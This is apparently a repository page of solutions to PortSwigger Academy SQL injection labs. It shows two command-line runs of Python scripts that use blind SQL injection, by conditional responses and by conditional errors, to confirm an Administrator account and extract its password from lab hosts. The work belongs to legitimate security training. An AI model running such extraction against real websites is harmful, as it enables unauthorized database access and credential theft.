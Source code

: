 ## SQL Injection Labs - PortSwigger Academy

#### Lab: Blind SQL Injection with Conditional Response
```sh
 $ python3 blind_sql_conditional_response.py https://aca11f2a1e76b68e80af965200bf0092.web-security-academy.net
 Checking users table: True
 Checking Administrator account: True
 Checking password length: 20
 Extracting Admin password: 4iwxwfcbXXXXXXXXXXXX
```

#### Lab: Blind SQL Injection with Conditional Errors
```sh
$ python blind_sql_injection_conditional_errors.py https://accf1fb81eb3ffbe80ab1379003a0078.web-security-academy.net
Checking users table: True
Checking Administrator account: True
Checking password length: 20
Extracting Admin password: fbut9j14XXXXXXXXXXXX
```
